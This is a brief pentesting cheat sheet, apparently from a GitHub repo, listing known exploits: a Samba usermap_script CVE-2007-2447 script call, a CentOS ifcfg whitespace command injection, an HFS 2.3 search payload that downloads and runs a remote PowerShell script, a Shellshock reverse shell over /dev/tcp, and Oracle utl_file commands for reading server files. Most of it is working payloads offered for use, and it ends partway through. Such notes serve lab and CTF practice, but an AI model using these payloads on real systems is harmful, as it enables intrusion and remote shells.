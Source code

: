 1. Download file 
https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py

`usermap_script.py <victime ip> 445 <attacker IP> 9001`




# vuln in redhat centos ifcfg script 


https://seclists.org/fulldisclosure/2019/Apr/24  
>If you have white/blank space in 
>the name the system tries to execute the part after the white/blank space. Which means; >everything after the first 
>blank space is executed as root.
>For example:
>/etc/sysconfig/network-scripts/ifcfg-1337
>NAME=Network /bin/id  <= Note the blank space
>ONBOOT=yes
>DEVICE=eth0



# PHP Lightadmin 


# HFS 2.3 

search= %00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<ip>:8000/rev.ps1').} 



# Shellshock

 `() { :;}; echo; /bin/bash -c bash -i >& /dev/tcp/<ip>/9001 0>&1;`



# SQLPLUS64 Oracle

`sqlplus64 scott/tiger@10.10.10.82:1521/XE as sysdba`

  1. to check privs for session `select * from session_privs; `
  2. to check priv of user role `select * from user_role_privs;`

we will declare the variables in the oracle  to read file from the server 

```sql
declare 
  f utl_file.file_type;
  s varchar(200);
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
  utl_file.get_line(f,s);
  utl_file.fclose(f);
  dbms_output.put_line(s);
end;

```
we will try to write files to the server
